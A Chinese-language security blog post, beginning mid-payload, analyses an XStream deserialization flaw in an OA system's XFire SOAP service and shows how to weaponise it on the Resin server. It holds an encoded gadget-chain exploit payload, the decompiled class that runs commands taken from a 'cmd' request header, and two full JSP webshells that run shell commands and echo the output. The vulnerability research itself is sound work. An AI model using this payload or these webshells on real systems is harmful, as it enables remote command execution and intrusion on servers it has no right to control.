&#110;&#90;&#115;&#90;&#88;&#82;&#83;&#90;&#88;&#78;&#119;&#98;&#50;&#53;&#122;&#90;&#81;&#69;&#65;&#73;&#83;&#103;&#112;&#84;&#71;&#112;&#104;&#100;&#109;&#70;&#52;&#76;&#51;&#78;&#108;&#99;&#110;&#90;&#115;&#90;&#88;&#81;&#118;&#85;&#50;&#86;&#121;&#100;&#109;&#120;&#108;&#100;&#70;&#74;&#108;&#99;&#51;&#66;&#118;&#98;&#110;&#78;&#108;&#79;&#119;&#69;&#65;&#67;&#87;&#100;&#108;&#100;&#70;&#100;&#121;&#97;&#88;&#82;&#108;&#99;&#103;&#69;&#65;&#70;&#121;&#103;&#112;&#84;&#71;&#112;&#104;&#100;&#109;&#69;&#118;&#97;&#87;&#56;&#118;&#85;&#72;&#74;&#112;&#98;&#110;&#82;&#88;&#99;&#109;&#108;&#48;&#90;&#88;&#73;&#55;&#65;&#81;&#65;&#82;&#97;&#109;&#70;&#50;&#89;&#83;&#57;&#115;&#89;&#87;&#53;&#110;&#76;&#49;&#74;&#49;&#98;&#110;&#82;&#112;&#98;&#87;&#85;&#66;&#65;&#65;&#112;&#110;&#90;&#88;&#82;&#83;&#100;&#87;&#53;&#48;&#97;&#87;&#49;&#108;&#65;&#81;&#65;&#86;&#75;&#67;&#108;&#77;&#97;&#109;&#70;&#50;&#89;&#83;&#57;&#115;&#89;&#87;&#53;&#110;&#76;&#49;&#74;&#49;&#98;&#110;&#82;&#112;&#98;&#87;&#85;&#55;&#65;&#81;&#65;&#71;&#89;&#88;&#66;&#119;&#90;&#87;&#53;&#107;&#65;&#81;&#65;&#116;&#75;&#69;&#120;&#113;&#89;&#88;&#90;&#104;&#76;&#50;&#120;&#104;&#98;&#109;&#99;&#118;&#85;&#51;&#82;&#121;&#97;&#87;&#53;&#110;&#79;&#121;&#108;&#77;&#97;&#109;&#70;&#50;&#89;&#83;&#57;&#115;&#89;&#87;&#53;&#110;&#76;&#49;&#78;&#48;&#99;&#109;&#108;&#117;&#90;&#48;&#74;&#49;&#97;&#87;&#120;&#107;&#90;&#88;&#73;&#55;&#65;&#81;&#65;&#73;&#100;&#71;&#57;&#84;&#100;&#72;&#74;&#112;&#98;&#109;&#99;&#66;&#65;&#66;&#81;&#111;&#75;&#85;&#120;&#113;&#89;&#88;&#90;&#104;&#76;&#50;&#120;&#104;&#98;&#109;&#99;&#118;&#85;&#51;&#82;&#121;&#97;&#87;&#53;&#110;&#79;&#119;&#69;&#65;&#66;&#71;&#86;&#52;&#90;&#87;&#77;&#66;&#65;&#67;&#99;&#111;&#84;&#71;&#112;&#104;&#100;&#109;&#69;&#118;&#98;&#71;&#70;&#117;&#90;&#121;&#57;&#84;&#100;&#72;&#74;&#112;&#98;&#109;&#99;&#55;&#75;&#85;&#120;&#113;&#89;&#88;&#90;&#104;&#76;&#50;&#120;&#104;&#98;&#109;&#99;&#118;&#85;&#72;&#74;&#118;&#89;&#50;&#86;&#122;&#99;&#122;&#115;&#66;&#65;&#66;&#70;&#113;&#89;&#88;&#90;&#104;&#76;&#50;&#120;&#104;&#98;&#109;&#99;&#118;&#85;&#72;&#74;&#118;&#89;&#50;&#86;&#122;&#99;&#119;&#69;&#65;&#68;&#109;&#100;&#108;&#100;&#69;&#108;&#117;&#99;&#72;&#86;&#48;&#85;&#51;&#82;&#121;&#90;&#87;&#70;&#116;&#65;&#81;&#65;&#88;&#75;&#67;&#108;&#77;&#97;&#109;&#70;&#50;&#89;&#83;&#57;&#112;&#98;&#121;&#57;&#74;&#98;&#110;&#66;&#49;&#100;&#70;&#78;&#48;&#99;&#109;&#86;&#104;&#98;&#84;&#115;&#66;&#65;&#66;&#103;&#111;&#84;&#71;&#112;&#104;&#100;&#109;&#69;&#118;&#97;&#87;&#56;&#118;&#83;&#87;&#53;&#119;&#100;&#88;&#82;&#84;&#100;&#72;&#74;&#108;&#89;&#87;&#48;&#55;&#75;&#86;&#89;&#66;&#65;&#65;&#120;&#49;&#99;&#50;&#86;&#69;&#90;&#87;&#120;&#112;&#98;&#87;&#108;&#48;&#90;&#88;&#73;&#66;&#65;&#67;&#99;&#111;&#84;&#71;&#112;&#104;&#100;&#109;&#69;&#118;&#98;&#71;&#70;&#117;&#90;&#121;&#57;&#84;&#100;&#72;&#74;&#112;&#98;&#109;&#99;&#55;&#75;&#85;&#120;&#113;&#89;&#88;&#90;&#104;&#76;&#51;&#86;&#48;&#97;&#87;&#119;&#118;&#85;&#50;&#78;&#104;&#98;&#109;&#53;&#108;&#99;&#106;&#115;&#66;&#65;&#65;&#82;&#117;&#90;&#88;&#104;&#48;&#65;&#81;&#65;&#84;&#97;&#109;&#70;&#50;&#89;&#83;&#57;&#112;&#98;&#121;&#57;&#81;&#99;&#109;&#108;&#117;&#100;&#70;&#100;&#121;&#97;&#88;&#82;&#108;&#99;&#103;&#69;&#65;&#66;&#51;&#66;&#121;&#97;&#87;&#53;&#48;&#98;&#71;&#52;&#66;&#65;&#66;&#85;&#111;&#84;&#71;&#112;&#104;&#100;&#109;&#69;&#118;&#98;&#71;&#70;&#117;&#90;&#121;&#57;&#84;&#100;&#72;&#74;&#112;&#98;&#109;&#99;&#55;&#75;&#86;&#89;&#66;&#65;&#65;&#57;&#119;&#99;&#109;&#108;&#117;&#100;&#70;&#78;&#48;&#89;&#87;&#78;&#114;&#86;&#72;&#74;&#104;&#89;&#50;&#85;&#66;&#65;&#69;&#66;&#106;&#98;&#50;&#48;&#118;&#99;&#51;&#86;&#117;&#76;&#50;&#57;&#121;&#90;&#121;&#57;&#104;&#99;&#71;&#70;&#106;&#97;&#71;&#85;&#118;&#101;&#71;&#70;&#115;&#89;&#87;&#52;&#118;&#97;&#87;&#53;&#48;&#90;&#88;&#74;&#117;&#89;&#87;&#119;&#118;&#101;&#72;&#78;&#115;&#100;&#71;&#77;&#118;&#99;&#110;&#86;&#117;&#100;&#71;&#108;&#116;&#90;&#83;&#57;&#66;&#89;&#110;&#78;&#48;&#99;&#109;&#70;&#106;&#100;&#70;&#82;&#121;&#89;&#87;&#53;&#122;&#98;&#71;&#86;&#48;&#66;&#119;&#67;&#77;&#67;&#103;&#67;&#78;&#65;&#68;&#56;&#65;&#73;&#81;&#65;&#105;&#65;&#73;&#48;&#65;&#65;&#81;&#65;&#106;&#65;&#65;&#69;&#65;&#67;&#103;&#65;&#107;&#65;&#67;&#85;&#65;&#65;&#65;&#65;&#67;&#65;&#65;&#69;&#65;&#74;&#103;&#65;&#110;&#65;&#65;&#69;&#65;&#75;&#65;&#65;&#65;&#65;&#67;&#56;&#65;&#65;&#81;&#65;&#66;&#65;&#65;&#65;&#65;&#66;&#83;&#113;&#51;&#65;&#73;&#54;&#120;&#65;&#65;&#65;&#65;&#65;&#103;&#65;&#112;&#65;&#65;&#65;&#65;&#66;&#103;&#65;&#66;&#65;&#65;&#65;&#65;&#66;&#119;&#65;&#113;&#65;&#65;&#65;&#65;&#68;&#65;&#65;&#66;&#65;&#65;&#65;&#65;&#66;&#81;&#65;&#114;&#65;&#67;&#119;&#65;&#65;&#65;&#65;&#73;&#65;&#67;&#48;&#65;&#74;&#119;&#65;&#66;&#65;&#67;&#103;&#65;&#65;&#65;&#69;&#53;&#65;&#65;&#89;&#65;&#66;&#103;&#65;&#65;&#65;&#73;&#77;&#66;&#115;&#119;&#65;&#67;&#117;&#65;&#65;&#68;&#116;&#103;&#65;&#69;&#69;&#103;&#87;&#50;&#65;&#65;&#90;&#76;&#75;&#104;&#73;&#72;&#65;&#55;&#48;&#65;&#67;&#76;&#89;&#65;&#67;&#85;&#119;&#114;&#65;&#81;&#79;&#57;&#65;&#65;&#113;&#50;&#65;&#65;&#118;&#65;&#65;&#65;&#120;&#78;&#76;&#66;&#73;&#78;&#116;&#103;&#65;&#79;&#120;&#103;&#66;&#77;&#76;&#66;&#73;&#78;&#116;&#103;&#65;&#79;&#84;&#105;&#121;&#50;&#65;&#65;&#47;&#65;&#65;&#66;&#65;&#54;&#66;&#66;&#107;&#69;&#117;&#81;&#65;&#82;&#65;&#81;&#65;&#54;&#66;&#82;&#107;&#70;&#117;&#119;&#65;&#83;&#87;&#98;&#103;&#65;&#69;&#55;&#115;&#65;&#70;&#70;&#109;&#51;&#65;&#66;&#85;&#83;&#70;&#114;&#89;&#65;&#70;&#121;&#50;&#50;&#65;&#66;&#101;&#50;&#65;&#66;&#105;&#50;&#65;&#66;&#109;&#50;&#65;&#66;&#113;&#51;&#65;&#66;&#115;&#83;&#72;&#76;&#89;&#65;&#72;&#98;&#89;&#65;&#72;&#114;&#89;&#65;&#72;&#54;&#99;&#65;&#67;&#69;&#115;&#113;&#116;&#103;&#65;&#104;&#115;&#81;&#65;&#66;&#65;&#65;&#81;&#65;&#101;&#103;&#66;&#57;&#65;&#67;&#65;&#65;&#65;&#119;&#65;&#112;&#65;&#65;&#65;&#65;&#80;&#103;&#65;&#80;&#65;&#65;&#65;&#65;&#67;&#81;&#65;&#69;&#65;&#65;&#48;&#65;&#69;&#65;&#65;&#79;&#65;&#66;&#115;&#65;&#68;&#119;&#65;&#111;&#65;&#66;&#65;&#65;&#77;&#81;&#65;&#82;&#65;&#68;&#103;&#65;&#69;&#103;&#66;&#66;&#65;&#66;&#77;&#65;&#83;&#103;&#65;&#85;&#65;&#72;&#69;&#65;&#70;&#81;&#66;&#51;&#65;&#66;&#81;&#65;&#101;&#103;&#65;&#90;&#65;&#72;&#48;&#65;&#70;&#119;&#66;&#43;&#65;&#66;&#103;&#65;&#103;&#103;&#65;&#97;&#65;&#67;&#111;&#65;&#65;&#65;&#66;&#73;&#65;&#65;&#99;&#65;&#79;&#65;&#66;&#67;&#65;&#67;&#52;&#65;&#74;&#81;&#65;&#68;&#65;&#69;&#69;&#65;&#79;&#81;&#65;&#118;&#65;&#68;&#65;&#65;&#66;&#65;&#66;&#75;&#65;&#68;&#65;&#65;&#77;&#81;&#65;&#121;&#65;&#65;&#85;&#65;&#69;&#65;&#66;&#113;&#65;&#68;&#77;&#65;&#78;&#65;&#65;&#65;&#65;&#66;&#115;&#65;&#88;&#119;&#65;&#49;&#65;&#68;&#89;&#65;&#65;&#81;&#65;&#111;&#65;&#70;&#73;&#65;&#78;&#119;&#65;&#52;&#65;&#65;&#73;&#65;&#102;&#103;&#65;&#69;&#65;&#68;&#107;&#65;&#79;&#103;&#65;&#65;&#65;&#68;&#115;&#65;&#65;&#65;&#65;&#75;&#65;&#65;&#80;&#55;&#65;&#72;&#112;&#67;&#66;&#119;&#65;&#56;&#66;&#65;&#65;&#66;&#65;&#68;&#48;&#65;&#65;&#65;&#65;&#67;&#65;&#68;&#52;&#61;&lt;&#47;&#98;&#121;&#116;&#101;&#45;&#97;&#114;&#114;&#97;&#121;&gt;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&lt;&#98;&#121;&#116;&#101;&#45;&#97;&#114;&#114;&#97;&#121;&gt;&#121;&#118;&#54;&#54;&#118;&#103;&#65;&#65;&#65;&#68;&#73;&#65;&#71;&#119;&#111;&#65;&#65;&#119;&#65;&#86;&#66;&#119;&#65;&#88;&#66;&#119;&#65;&#89;&#66;&#119;&#65;&#90;&#65;&#81;&#65;&#81;&#99;&#50;&#86;&#121;&#97;&#87;&#70;&#115;&#86;&#109;&#86;&#121;&#99;&#50;&#108;&#118;&#98;&#108;&#86;&#74;&#82;&#65;&#69;&#65;&#65;&#85;&#111;&#66;&#65;&#65;&#49;&#68;&#98;&#50;&#53;&#122;&#100;&#71;&#70;&#117;&#100;&#70;&#90;&#104;&#98;&#72;&#86;&#108;&#66;&#88;&#72;&#109;&#97;&#101;&#52;&#56;&#98;&#85;&#99;&#89;&#65;&#81;&#65;&#71;&#80;&#71;&#108;&#117;&#97;&#88;&#81;&#43;&#65;&#81;&#65;&#68;&#75;&#67;&#108;&#87;&#65;&#81;&#65;&#69;&#81;&#50;&#57;&#107;&#90;&#81;&#69;&#65;&#68;&#48;&#120;&#112;&#98;&#109;&#86;&#79;&#100;&#87;&#49;&#105;&#90;&#88;&#74;&#85;&#89;&#87;&#74;&#115;&#90;&#81;&#69;&#65;&#69;&#107;&#120;&#118;&#89;&#50;&#70;&#115;&#86;&#109;&#70;&#121;&#97;&#87;&#70;&#105;&#98;&#71;&#86;&#85;&#89;&#87;&#74;&#115;&#90;&#81;&#69;&#65;&#66;&#72;&#82;&#111;&#97;&#88;&#77;&#66;&#65;&#65;&#78;&#71;&#98;&#50;&#56;&#66;&#65;&#65;&#120;&#74;&#98;&#109;&#53;&#108;&#99;&#107;&#78;&#115;&#89;&#88;&#78;&#122;&#90;&#88;&#77;&#66;&#65;&#67;&#86;&#77;&#101;&#88;&#78;&#118;&#99;&#50;&#86;&#121;&#97;&#87;&#70;&#115;&#76;&#51;&#66;&#104;&#101;&#87;&#120;&#118;&#89;&#87;&#82;&#122;&#76;&#51;&#86;&#48;&#97;&#87;&#119;&#118;&#82;&#50;&#70;&#107;&#90;&#50;&#86;&#48;&#99;&#121;&#82;&#71;&#98;&#50;&#56;&#55;&#65;&#81;&#65;&#75;&#85;&#50;&#57;&#49;&#99;&#109;&#78;&#108;&#82;&#109;&#108;&#115;&#90;&#81;&#69;&#65;&#68;&#69;&#100;&#104;&#90;&#71;&#100;&#108;&#100;&#72;&#77;&#117;&#97;&#109;&#70;&#50;&#89;&#81;&#119;&#65;&#67;&#103;&#65;&#76;&#66;&#119;&#65;&#97;&#65;&#81;&#65;&#106;&#101;&#88;&#78;&#118;&#99;&#50;&#86;&#121;&#97;&#87;&#70;&#115;&#76;&#51;&#66;&#104;&#101;&#87;&#120;&#118;&#89;&#87;&#82;&#122;&#76;&#51;&#86;&#48;&#97;&#87;&#119;&#118;&#82;&#50;&#70;&#107;&#90;&#50;&#86;&#48;&#99;&#121;&#82;&#71;&#98;&#50;&#56;&#66;&#65;&#66;&#66;&#113;&#89;&#88;&#90;&#104;&#76;&#50;&#120;&#104;&#98;&#109;&#99;&#118;&#84;&#50;&#74;&#113;&#90;&#87;&#78;&#48;&#65;&#81;&#65;&#85;&#97;&#109;&#70;&#50;&#89;&#83;&#57;&#112;&#98;&#121;&#57;&#84;&#90;&#88;&#74;&#112;&#89;&#87;&#120;&#112;&#101;&#109;&#70;&#105;&#98;&#71;&#85;&#66;&#65;&#66;&#57;&#53;&#99;&#50;&#57;&#122;&#90;&#88;&#74;&#112;&#89;&#87;&#119;&#118;&#99;&#71;&#70;&#53;&#98;&#71;&#57;&#104;&#90;&#72;&#77;&#118;&#100;&#88;&#82;&#112;&#98;&#67;&#57;&#72;&#89;&#87;&#82;&#110;&#90;&#88;&#82;&#122;&#65;&#67;&#69;&#65;&#65;&#103;&#65;&#68;&#65;&#65;&#69;&#65;&#66;&#65;&#65;&#66;&#65;&#66;&#111;&#65;&#66;&#81;&#65;&#71;&#65;&#65;&#69;&#65;&#66;&#119;&#65;&#65;&#65;&#65;&#73;&#65;&#67;&#65;&#65;&#66;&#65;&#65;&#69;&#65;&#67;&#103;&#65;&#76;&#65;&#65;&#69;&#65;&#68;&#65;&#65;&#65;&#65;&#67;&#56;&#65;&#65;&#81;&#65;&#66;&#65;&#65;&#65;&#65;&#66;&#83;&#113;&#51;&#65;&#65;&#71;&#120;&#65;&#65;&#65;&#65;&#65;&#103;&#65;&#78;&#65;&#65;&#65;&#65;&#66;&#103;&#65;&#66;&#65;&#65;&#65;&#65;&#80;&#65;&#65;&#79;&#65;&#65;&#65;&#65;&#68;&#65;&#65;&#66;&#65;&#65;&#65;&#65;&#66;&#81;&#65;&#80;&#65;&#66;&#73;&#65;&#65;&#65;&#65;&#67;&#65;&#66;&#77;&#65;&#65;&#65;&#65;&#67;&#65;&#66;&#81;&#65;&#69;&#81;&#65;&#65;&#65;&#65;&#111;&#65;&#65;&#81;&#65;&#67;&#65;&#66;&#89;&#65;&#69;&#65;&#65;&#74;&lt;&#47;&#98;&#121;&#116;&#101;&#45;&#97;&#114;&#114;&#97;&#121;&gt;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&lt;&#47;&#95;&#95;&#98;&#121;&#116;&#101;&#99;&#111;&#100;&#101;&#115;&gt;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&lt;&#95;&#95;&#116;&#114;&#97;&#110;&#115;&#108;&#101;&#116;&#73;&#110;&#100;&#101;&#120;&gt;&#45;&#49;&lt;&#47;&#95;&#95;&#116;&#114;&#97;&#110;&#115;&#108;&#101;&#116;&#73;&#110;&#100;&#101;&#120;&gt;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&lt;&#95;&#95;&#105;&#110;&#100;&#101;&#110;&#116;&#78;&#117;&#109;&#98;&#101;&#114;&gt;&#48;&lt;&#47;&#95;&#95;&#105;&#110;&#100;&#101;&#110;&#116;&#78;&#117;&#109;&#98;&#101;&#114;&gt;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&lt;&#47;&#100;&#101;&#102;&#97;&#117;&#108;&#116;&gt;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&lt;&#98;&#111;&#111;&#108;&#101;&#97;&#110;&gt;&#102;&#97;&#108;&#115;&#101;&lt;&#47;&#98;&#111;&#111;&#108;&#101;&#97;&#110;&gt;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&lt;&#47;&#99;&#111;&#109;&#46;&#115;&#117;&#110;&#46;&#111;&#114;&#103;&#46;&#97;&#112;&#97;&#99;&#104;&#101;&#46;&#120;&#97;&#108;&#97;&#110;&#46;&#105;&#110;&#116;&#101;&#114;&#110;&#97;&#108;&#46;&#120;&#115;&#108;&#116;&#99;&#46;&#116;&#114;&#97;&#120;&#46;&#84;&#101;&#109;&#112;&#108;&#97;&#116;&#101;&#115;&#73;&#109;&#112;&#108;&gt;&#13;&#10;&#32;&#32;&#32;&#32;&lt;&#47;&#99;&#111;&#109;&#46;&#115;&#117;&#110;&#46;&#111;&#114;&#103;&#46;&#97;&#112;&#97;&#99;&#104;&#101;&#46;&#120;&#97;&#108;&#97;&#110;&#46;&#105;&#110;&#116;&#101;&#114;&#110;&#97;&#108;&#46;&#120;&#115;&#108;&#116;&#99;&#46;&#116;&#114;&#97;&#120;&#46;&#84;&#101;&#109;&#112;&#108;&#97;&#116;&#101;&#115;&#73;&#109;&#112;&#108;&gt;&#13;&#10;&#32;&#32;&#32;&#32;&lt;&#99;&#111;&#109;&#46;&#115;&#117;&#110;&#46;&#111;&#114;&#103;&#46;&#97;&#112;&#97;&#99;&#104;&#101;&#46;&#120;&#97;&#108;&#97;&#110;&#46;&#105;&#110;&#116;&#101;&#114;&#110;&#97;&#108;&#46;&#120;&#115;&#108;&#116;&#99;&#46;&#116;&#114;&#97;&#120;&#46;&#84;&#101;&#109;&#112;&#108;&#97;&#116;&#101;&#115;&#73;&#109;&#112;&#108;&#32;&#114;&#101;&#102;&#101;&#114;&#101;&#110;&#99;&#101;&#61;&quot;&#46;&#46;&#47;&#99;&#111;&#109;&#46;&#115;&#117;&#110;&#46;&#111;&#114;&#103;&#46;&#97;&#112;&#97;&#99;&#104;&#101;&#46;&#120;&#97;&#108;&#97;&#110;&#46;&#105;&#110;&#116;&#101;&#114;&#110;&#97;&#108;&#46;&#120;&#115;&#108;&#116;&#99;&#46;&#116;&#114;&#97;&#120;&#46;&#84;&#101;&#109;&#112;&#108;&#97;&#116;&#101;&#115;&#73;&#109;&#112;&#108;&quot;&#47;&gt;&#13;&#10;&#32;&#32;&lt;&#47;&#106;&#97;&#118;&#97;&#46;&#117;&#116;&#105;&#108;&#46;&#80;&#114;&#105;&#111;&#114;&#105;&#116;&#121;&#81;&#117;&#101;&#117;&#101;&gt;&#13;&#10;&lt;&#47;&#106;&#97;&#118;&#97;&#46;&#117;&#116;&#105;&#108;&#46;&#80;&#114;&#105;&#111;&#114;&#105;&#116;&#121;&#81;&#117;&#101;&#117;&#101;&gt;</web:string>
        <web:string>2</web:string>
      </web:doCreateWorkflowRequest>
   </soapenv:Body>
</soapenv:Envelope>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202161439-1c721fac-c1a3-1.png)

html 解密可以看到使用了 cb 和 cc 链构造的，解密一下 base64 字节码可以看到回显代码如下：

```plain
package yaoserial.payloads.util;

import com.caucho.server.http.HttpServletRequestImpl;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import java.io.PrintWriter;
import java.io.Serializable;
import java.lang.reflect.Method;
import java.util.Scanner;
import javax.servlet.http.HttpServletResponse;

public class TestObj1 extends AbstractTranslet implements Serializable {
    private static String jaky = null;

    public TestObj1() {
    }

    static {
        try {
            Class si = Thread.currentThread().getContextClassLoader().loadClass("com.caucho.server.dispatch.ServletInvocation");
            Method getContextRequest = si.getMethod("getContextRequest");
            HttpServletRequestImpl req = (HttpServletRequestImpl)getContextRequest.invoke((Object)null);
            if (req.getHeader("cmd") != null) {
                String cmd = req.getHeader("cmd");
                HttpServletResponse rep = (HttpServletResponse)req.getServletResponse();
                PrintWriter out = rep.getWriter();
                out.println((new Scanner(Runtime.getRuntime().exec("cmd /c " + cmd).getInputStream())).useDelimiter("\\A").next());
            }
        } catch (Exception var6) {
            var6.printStackTrace();
        }

    }
}
```

### 漏洞分析

首先我们看到`WEB-INF\web.xml`，这里的`org.codehaus.xfire.transport.http.XFireConfigurableServlet`类对应`/services/*`  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240202161455-25b393e8-c1a3-1.png)

跟进发现这个类继承了 XFireServlet 类，直接看到`org.codehaus.xfire.transport.http.XFireServlet`类  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240202161520-34f049dc-c1a3-1.png)

servlet 中 post 相当于触发 doPost 方法，看到调用了`XFireServletController#doService`方法，跟进  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240202161531-3b3fb3e0-c1a3-1.png)

getService 方法获取服务名，也就是我们传入的 WorkflowServiceXml，并且我们没有传 wsdl，就会调用`XFireServletController#invoke`方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240202161540-40acdb14-c1a3-1.png)

如果 contentType 不为空且不为`multipart/related`时，就会处理`request.getInputStream()`传入的 soap 消息，然后根据 soap 消息调用相关方法

在 poc 中，调用了`WorkflowServiceImplXml#doCreateWorkflowRequest`方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240202161550-46e9316c-c1a3-1.png)

通过 xmlToObject 解析我们传入的 var1 参数，跟进`XmlUtil#xmlToObject`  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240202161558-4b99a87c-c1a3-1.png)

可以看到最终调用了`XStream.fromXML()`，这也就是 XStream 反序列化了，版本为 xstream-1.3.jar

参考：  
[五一快乐 - 微某 OA 从 0day 流量分析到武器化利用](https://mp.weixin.qq.com/s/iTP9jBypsJEsSlAIaNOnhw)  
[泛微 Xstream 反序列化漏洞分析](https://cangqingzhe.github.io/2021/05/15/%E6%B3%9B%E5%BE%AEXstream%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)

## Resin 回显以及内存马

漏洞后利用肯定离不开回显以及内存马，所以我们就来分析一下 resin4.0 相关的内存马  
安装的时候踩了不少坑，按照网上的配置来即可，注意需要修改 web.xml 的代码为：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<web-app version="2.4"
         xmlns="http://java.sun.com/xml/ns/j2ee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http:/java.sun.com/dtd/web-app_2_3.dtd">
</web-app>
```

### Resin 4.x 回显

我们先新建一个 filter 看一下调用栈

```plain
doFilter:17, HelloFilter (com.resin)
doFilter:89, FilterFilterChain (com.caucho.server.dispatch)
doFilter:156, WebAppFilterChain (com.caucho.server.webapp)
doFilter:95, AccessLogFilterChain (com.caucho.server.webapp)
service:314, ServletInvocation (com.caucho.server.dispatch)
handleRequest:845, HttpRequest (com.caucho.server.http)
dispatchRequest:1395, TcpSocketLink (com.caucho.network.listen)
handleRequest:1351, TcpSocketLink (com.caucho.network.listen)
handleRequestsImpl:1335, TcpSocketLink (com.caucho.network.listen)
handleRequests:1243, TcpSocketLink (com.caucho.network.listen)
handleAcceptTaskImpl:1037, TcpSocketLink (com.caucho.network.listen)
runThread:117, ConnectionTask (com.caucho.network.listen)
run:93, ConnectionTask (com.caucho.network.listen)
handleTasks:175, SocketLinkThreadLauncher (com.caucho.network.listen)
run:61, TcpSocketAcceptThread (com.caucho.network.listen)
runTasks:173, ResinThread2 (com.caucho.env.thread2)
run:118, ResinThread2 (com.caucho.env.thread2)
```

我们需要获取当前的 request 和 response，我们知道这个 request 一般是存储在当前线程对象中，分析一下  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240202161629-5e0deb12-c1a3-1.png)

看到 HttpRequest 储存在了 ThreadLocals 当中，那么回显就比较简单了，遍历当前线程并且匹配 value 为 HttpRequest 的值

因为这里 HttpRequest 继承了 AbstractHttpRequest  
我们就可以通过`com.caucho.server.http.AbstractHttpRequest#getResponseFacade`返回 response 对象  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240202161640-6437184c-c1a3-1.png)

回显代码如下：

```plain
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="com.caucho.server.http.HttpRequest" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.io.Writer" %>
<%@ page import="java.io.PrintWriter" %>
<%@ page import="java.util.Scanner" %>

<%
    try {
        Field f = Thread.currentThread().getClass().getSuperclass().getDeclaredField("threadLocals");
        f.setAccessible(true);
        Object obj = f.get(Thread.currentThread());
        f = obj.getClass().getDeclaredField("table");
        f.setAccessible(true);
        obj = f.get(obj);
        Object[] obj_arr = (Object[]) obj;
        for(int i = 0; i < obj_arr.length; i++) {
            Object o = obj_arr[i];
            if (o == null) continue;
            f = o.getClass().getDeclaredField("value");
            f.setAccessible(true);
            obj = f.get(o);
            if(obj != null && obj.getClass().getName().equals("com.caucho.server.http.HttpRequest")) {
                HttpRequest httpRequest = (HttpRequest) obj;
                Object httpResponse = httpRequest.getResponseFacade();
                Method getWriterM = httpResponse.getClass().getMethod("getWriter");
                Writer writer = (PrintWriter)getWriterM.invoke(httpResponse);
                Method getHeaderM = httpRequest.getClass().getMethod("getHeader", String.class);
                String cmd = (String)getHeaderM.invoke(httpRequest, "cmd");
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                Scanner scanner = (new Scanner(Runtime.getRuntime().exec(cmds).getInputStream())).useDelimiter("\\A");
                writer.write(scanner.hasNext() ? scanner.next() : "");
            }
        }
    } catch (Exception e) {

    }
%>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202161650-6a8e6d58-c1a3-1.png)

> 还有一种方法也是常见的回显方式之一，就是有些中间件会把当前 request 对象存储在静态变量或者特定类里，可以通过反射获取该静态变量或特定类，然后获取 request 对象

#### ServletInvocation

这里找到类`com.caucho.server.dispatch.ServletInvocation`  
看到它的 getContextRequest 方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240202161659-6fc06dd0-c1a3-1.png)

执行一下

```plain
Thread.currentThread().getContextClassLoader().loadClass("com.caucho.server.dispatch.ServletInvocation").getMethod("getContextRequest").invoke(null);
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240202161714-788c51d6-c1a3-1.png)

可以看到实际获取到的为 HttpServletRequestImpl 对象，然后通过`_response`字段获取到 response 对象

> 回显思路
> 
> -   反射调用 ServletInvocation.getContextRequest() 获取 HttpServletRequestImpl 对象
> -   反射获取\_response 字段得到 response 对象
> -   反射调用 reponse 对象的 getWriter 方法获取 PrintWriter 对象
> -   通过 PrintWriter 对象的 write 方法写入需回显内容

那么回显就很简单了 (这里加上了 resin3.0 的回显)：

```plain
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.io.Writer" %>
<%@ page import="java.io.PrintWriter" %>
<%@ page import="java.util.Scanner" %>

<%
    try{
        Object currentRequest = Thread.currentThread().getContextClassLoader().loadClass("com.caucho.server.dispatch.ServletInvocation").getMethod("getContextRequest").invoke(null);
        Field _responseF;
        if(currentRequest.getClass().getName().contains("com.caucho.server.http.HttpRequest")){
            // 3.x 需要从父类中获取
            _responseF = currentRequest.getClass().getSuperclass().getDeclaredField("_response");
        }else{
            _responseF = currentRequest.getClass().getDeclaredField("_response");
        }
        _responseF.setAccessible(true);
        Object currentResponse = _responseF.get(currentRequest);
        Method getWriterM = currentResponse.getClass().getMethod("getWriter");
        Writer writer = (PrintWriter)getWriterM.invoke(currentResponse);
        Method getHeaderM = currentRequest.getClass().getMethod("getHeader", String.class);
        String cmd = (String)getHeaderM.invoke(currentRequest, "cmd");
        boolean isLinux = true;
        String osTyp = System.getProperty("os.name");
        if (osTyp != null && osTyp.toLowerCase().contains("win")) {
            isLinux = false;
        }
        String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
        Scanner scanner = (new Scanner(Runtime.getRuntime().exec(cmds).getInputStream())).useDelimiter("\\A");
        writer.write(scanner.hasNext() ? scanner.next() : "");
    } catch (Exception e) {
    }
%>
```

#### TcpSocketLink

还存在一个类：`com.caucho.network.listen.TcpSocketLink#getCurrentRequest`  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240202161733-83e1c278-c1a3-1.png)

